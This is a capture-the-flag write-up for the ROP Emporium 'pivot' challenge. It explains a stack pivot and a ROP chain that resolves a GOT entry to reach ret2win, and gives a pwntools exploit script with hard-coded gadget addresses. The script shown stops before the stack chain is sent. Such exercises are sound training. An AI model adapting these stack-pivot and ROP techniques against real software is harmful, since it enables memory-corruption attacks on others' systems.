 The chain at the pivot address will contain most of what we need to do. The buffer overflow on the stack will only be used to overwrite the original stack pointer with the address of the pivot.

![](/assets/images/ropemporium/pivot_useful_gadgets.png)

The "useful gadgets" allow us to do exactly that: we can pop the location of the pivot into `rax`, then exchange the value of `rax` with that of `rsp`. With the pivot address in `rsp`, we can continue the chain from there.

We now need to call `ret2win`. Since we know the offset of `ret2win` relative to `foothold_function`, we will start by calling `foothold_function` in order to resolve its `.got.plt` entry. We first pop the pointer to the `.got.plt` entry into `rax`, then use the gadget `mov rax, qword ptr [rax] ; ret` to get the value at that entry.

We can then add the offset to the address of `foothold_function` in order to obtain the address of `ret2win`. We can pop the offset into `rbp` and use the gadget `add rax, rbp ; ret` to add them. The last part of the chain is `jmp rax`, which takes us to `ret2win`.

Final script:

```python
from pwn import *

chal = process("./pivot")

# write to pivot address
foothold_call = 0x400720

pop_rbp = 0x4007c8 # pop rbp ; ret
pop_rax = 0x4009bb # pop rax; ret
jmp_rax = 0x4007c1 # jmp rax
read_rax_addr = 0x4009c0 # mov rax, qword ptr [rax] ; ret
add_rax_rbp = 0x4009c4 # add rax, rbp ; ret

foothold_ptr = 0x601040
offset = 0xa81 - 0x96a

pivot_chain = b''
pivot_chain += p64(foothold_call)
pivot_chain += p64(pop_rbp) + p64(offset)
pivot_chain += p64(pop_rax) + p64(foothold_ptr)
pivot_chain += p64(read_rax_addr)
pivot_chain += p64(add_rax_rbp)
pivot_chain += p64(jmp_rax)

chal.recvuntil(b'pivot: ')
pivot_addr = int(chal.recv(numb=14), 16)
chal.recvuntil(b'>')
chal.sendline(pivot_chain)

# write to stack
xchg_rsp = 0x4009bd # xchg rsp, rax ; ret

stack_chain = b'a'*40 + p64(pop_rax) + p64(pivot_addr) + p64(xchg_rsp)
chal.recvuntil(b'>')
```